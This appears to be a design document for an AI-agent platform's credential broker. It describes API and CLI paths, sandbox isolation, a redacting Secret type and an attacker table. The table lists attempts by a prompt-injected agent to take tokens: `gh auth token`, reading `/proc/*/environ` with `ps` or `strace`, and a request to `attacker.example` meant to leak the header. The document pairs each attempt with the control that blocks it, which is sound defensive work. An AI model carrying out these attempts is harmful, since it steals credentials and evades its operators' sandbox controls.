

# 05 · The credential plane — how an agent uses a secret it can never read



> Spec: [`gen/d05_credential_plane.py`](gen/d05_credential_plane.py) · Code: [`backend/internal/creds/secret.go`](../../backend/internal/creds/secret.go), [`tools/invoke.go`](../../backend/internal/tools/invoke.go), [`fakegithub/`](../../backend/internal/fakegithub/) · Reasoning: [credentials](../reasoning/06-credentials.md) · Concept: [secrets](../01-concepts/05-secrets.md)

## What this shows

The two paths by which a tool call uses a credential — the **API path**
(`http.get`/`http.post`: the gateway itself makes the request) and the **CLI
path** (`github.cli`: a trusted binary runs in a second sandbox) — plus the
broker that mints and revokes, the `Secret` type that makes a leak a compile
error rather than a code-review item, and an attacker table: from each position
an attacker can occupy, what they try, what stops it, and what residual risk
remains.

## Services

| Component | Where it runs | Holds plaintext? |
|---|---|---|
| Credential broker (`creds.DerivedBroker`) | inside the gateway process | yes — per-tenant HMAC roots, in memory in the PoC |
| `invokeHTTP` | gateway process | yes — for one request, in a header |
| `invokeCLI` | gateway process → broker sandbox | yes — for one call, in the broker sandbox's environment |
| Agent sandbox | separate process tree | **never** |
| Third-party API (`fakegithub` in the PoC) | outside | receives it for ≤ 60 s |

## Domain boundaries

**The agent's process and the credential's process never share a namespace.**
The agent sandbox and the broker sandbox are two jails on the same node with
separate PID, user and mount namespaces. The agent cannot list the broker
process, read its `/proc/<pid>/environ`, `ptrace` it, or connect to it. The
*only* shared surface is the `/work` directory, bind-mounted into both.

**Policy runs before any mint.** The gateway's stage 2 has already checked the
host allowlist, the `argv[0]` allowlist and the denied-argument patterns before
stage 5 asks the broker for anything. `gh auth token` is refused with
`params.denied_pattern` and no token ever exists for that call.

**A credential is scoped four ways:** to a tenant (per-tenant HMAC root), to a
reference (`github/token`, `http/default`), to a time (`TTL ≤ 60 s`, hard cap
10 min), and to a call (`Revoke(id)` in a `defer` that runs on every path). The
fake GitHub API `Verify`s tenant, ref, expiry and signature; a token minted for
tenant A is rejected on tenant B's repositories even if stolen.

## Data flow

### API path (`http.get`, `http.post`)

```
stage 2   host ∈ allowed_hosts, not link-local/private/.internal, scheme http(s)
stage 5   cred := broker.Mint(tenant, "http/default", 60 s)
          req.Header.Set("Authorization", "Bearer " + cred.Value.Reveal())     ← Reveal site ①
          resp := client.Do(req)   -- from the gateway pod; body capped; status → is_error
          defer broker.Revoke(cred.ID)
result    the response body only; the model never sees the header
```

`http.post` is marked `Dangerous` (→ human approval) and `UnsafeRetry` (an
infrastructure failure is reported as "may or may not have taken effect").

### CLI path (`github.cli`)

```
stage 2   argv[0] ∈ allowed_commands (pr, issue, repo); no denied pattern ("auth token")
stage 5   cred := broker.Mint(tenant, "github/token", 60 s)
          sandbox.Run(Spec{
             RunID+"-broker", Argv: /opt/agentorch/bin/gh + argv,
             Network: proxy,                         -- egress proxy in the design; host netns in the PoC
             ExtraReadOnly{ /opt/agentorch/bin/gh: our own binary },
             Env: SafeEnv("GH_TOKEN=" + cred.Value.Reveal(), …),   ← Reveal site ②
             Limits{Wall: 20 s} })
          content := creds.Scrub(stdout + stderr, cred.Value)      ← Reveal site ③
          defer broker.Revoke(cred.ID)
result    the scrubbed output; meta carries credential_id and ttl, never the value
```

The `gh` inside the sandbox is the `agentorch` binary bind-mounted read-only
under that name; `main()` dispatches on `argv[0]` (the busybox pattern), so the
platform ships one image and the CLI shim is reviewed with the rest of the
code.

### The `Secret` type

```go
type Secret string
func (s Secret) String() string                    { return "[REDACTED]" }
func (s Secret) GoString() string                  { return "[REDACTED]" }
func (s Secret) Format(f fmt.State, verb rune)     { f.Write([]byte("[REDACTED]")) }
func (s Secret) MarshalJSON() ([]byte, error)      { return json.Marshal("[REDACTED]") }
func (s Secret) Reveal() string                    { return string(s) }   // the only way out
```

`fmt.Println(cred)`, `log.Printf("%+v", struct{...})`, `json.Marshal(cred)` and
`slog` all print `[REDACTED]`. `TestSecret_RevealCallSitesAreFewAndIntentional`
walks the source tree, skips comments, and fails if the number of `.Reveal()`
call sites is not exactly three — adding a fourth requires deliberately changing
the test (B9 was the moment the docs said "one" while the code said "three").

## Failure handling and attack surface

| Attacker position | Attempt | What stops it | Residual risk / gap |
|---|---|---|---|
| prompt-injected model | `github.cli ["auth","token"]` | stage 2 `params.denied_pattern`, before any mint; audited | a new `gh` subcommand that prints the token needs a new pattern — the `argv[0]` allowlist bounds this |
| model via `exec.bash` | `cat /proc/*/environ`, `ps`, `strace` | separate PID namespace: the broker process does not exist in the agent's `/proc`; `CapBnd = ∅` blocks `ptrace` | a kernel LPE breaks the namespace argument → production runs under gVisor |
| model via `http.get` | `GET https://attacker.example/?x=…` hoping the header follows | `params.host_not_allowed` + `params.ssrf`; the header is set only inside `invokeHTTP` for the allowed host | allowlists are per tool per agent and must be kept tight by the agent's author |
| poisoned `/work` input | a crafted PR body that makes `gh` misbehave | `gh` is our trusted binary with allowlisted argv; the token is scoped to one tenant + ref, lives ≤ 60 s, and is revoked after the call | a bug in the trusted binary could misuse the token for those seconds (blast radius: one tenant, one ref) |
| our own logs / traces | `fmt.Println(cred)` | the `Secret` type; the `Reveal()` count test | a new `Reveal()` passes review only if the expected count is changed deliberately |
| another tenant | replay tenant A's token against B | per-tenant roots; `Verify` checks tenant + ref + exp + sig; unknown tenant/ref fails closed | roots are in memory in the PoC — production: KMS/Vault-backed roots, SPIFFE workload identity, rotation |
| the broker sandbox's network | reach anything | designed: egress proxy + `NetworkPolicy sandbox-broker-egress-via-proxy` (:3128 only) | **PoC gap**: the broker sandbox uses the host network namespace — documented as the weaker point |

Failure of the broker itself: `ErrNoSuchRef` (tenant has no such credential
configured) is reported to the model as "needs a credential that is not
configured for your tenant" and audited; a mint error is a 502 with the
credential never created.

## Optimisations

* **Scoped, short-lived, revoked** rather than long-lived and rotated: a stolen
  token is useful for seconds, and only for the tenant and API it names.
* **One binary in the broker sandbox** — no second image to build, scan or
  pin; the shim is reviewed with the platform.
* **Scrub as belt-and-braces**, not as the control: policy prevents printing the
  token; scrubbing catches the case where policy is wrong.

## Trade-offs

| Chosen | Instead of | Cost |
|---|---|---|
| two sandboxes joined by `/work` | one sandbox with the credential in a file / env / proxy header | a second cold start per CLI call (8.4 ms); every CLI needs a shim or an allowlisted binary |
| the gateway makes API calls itself | a credential-injecting egress proxy (Anthropic/OpenAI-style) for everything | API tools are limited to what the gateway implements (`GET`/`POST` with a bearer header) |
| HMAC-derived tokens with a verifying fake | real GitHub App installation tokens | the demo proves the *shape*; production swaps the broker's `Mint` for an STS / GitHub App / Vault call |
| a `Secret` string type | a `[]byte` zeroed after use, or an external secrets sidecar | Go strings cannot be zeroed; the type prevents *printing*, not memory disclosure |

## Where to look in the code

* [`creds/secret.go`](../../backend/internal/creds/secret.go) — `Secret`, `Credential`, `DerivedBroker` (`Mint`, `Revoke`, `Verify`), `Scrub`
* [`tools/invoke.go`](../../backend/internal/tools/invoke.go) — `invokeHTTP`, `invokeCLI`
* [`cmd/agentorch/gh.go`](../../backend/cmd/agentorch/gh.go) — the CLI shim dispatched on `argv[0]`
* [`fakegithub/`](../../backend/internal/fakegithub/) — the API that verifies tokens per tenant
* Tests: `TestSecret_*` (S13), `TestSandbox_HostFilesystemIsNotVisible`, the demo's S12 "credentials never reach the agent"
